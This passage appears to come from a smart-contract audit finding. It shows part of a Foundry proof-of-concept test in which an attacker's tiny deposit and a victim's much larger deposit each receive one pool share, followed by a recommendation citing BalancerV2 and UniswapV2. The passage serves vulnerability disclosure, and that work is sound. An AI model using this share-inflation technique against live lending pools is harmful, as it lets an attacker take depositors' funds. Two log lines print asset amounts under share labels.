 ```solidity
        uint256 attackerDepositShares = totalDepositShares;
        vm.stopPrank();
        vm.startPrank(user2);
        (,,,,,,,,, totalDepositAssets, totalDepositShares) = pool.poolDataFor(linearRatePool);
        uint256 User2DepositAmount  = 2 * totalDepositAssets;
        asset1.mint(user2, User2DepositAmount -10);
        asset1.approve(address(pool), User2DepositAmount );
        pool.deposit(linearRatePool, User2DepositAmount -10, user2);


        

        (,,,,,,,,, totalDepositAssets, totalDepositShares) = pool.poolDataFor(linearRatePool);
        uint256 userTotalDepositAssets = User2DepositAmount -10;
        uint256 userDepositShares = totalDepositShares - attackerDepositShares;
        require(totalDepositShares == 2, "sharesReceived is not zero as expected");


        //NOTE: Here user1/attacker depsosited very less amount than the user2 
        console2.log("-----Here user1/attacker depsosited very less amount than the user2 ------");
        console2.log("attackerTotalDepositAssets",attackerTotalDepositAssets);
        console2.log("userTotalDepositAssets",userTotalDepositAssets);


        assertLt(attackerTotalDepositAssets,userTotalDepositAssets, "user2 deposited is not big amount than the user1" );


        //NOTE: Here Both shares are the same and it's 1
        console2.log("------Here Both shares are the same and it's 1------");
        console2.log("attackerDepositShares",attackerTotalDepositAssets);
        console2.log("userDepositShares",userTotalDepositAssets);


        require(userDepositShares == attackerDepositShares, "sharesReceived is not same as expected");

    }
```
<img width="1016" alt="image" src="https://github.com/user-attachments/assets/0fca0433-2223-4b75-8ff9-fe8742267f64">


## Recommendation
I like how [BalancerV2](https://github.com/balancer-labs/balancer-v2-monorepo/blob/master/pkg/pool-utils/contracts/BasePool.sol#L307-L325) and [UniswapV2](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L121) do it